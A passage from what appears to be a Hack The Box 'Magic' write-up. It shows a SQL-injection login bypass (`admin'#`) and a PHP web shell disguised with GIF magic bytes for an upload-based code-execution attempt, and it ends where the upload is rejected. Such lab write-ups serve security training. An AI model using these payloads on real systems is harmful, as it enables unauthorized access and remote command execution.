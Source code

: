 A simple SQL-injection like `admin'#` can bypass the login.

After successful login, we get redirected to upload.php.

![Image upload](/assets/htb/Magic/webpage-img-upload.png)

### Image upload to RCE

Let us try to upload a php file as an image and get code execution this way.
```bash
root@silence:~# cat exploit.gif.php
GIF8 <?php system($_GET['cmd']);?>
root@silence:~# file exploit.gif.php
exploit.gif.php: GIF image data 28735 x 28776
```
Using `GIF8`, which are the magic bytes for a GIF image, we can mask the php file as an image.

![GIF upload not allowed](/assets/htb/Magic/img-notallowed.png)
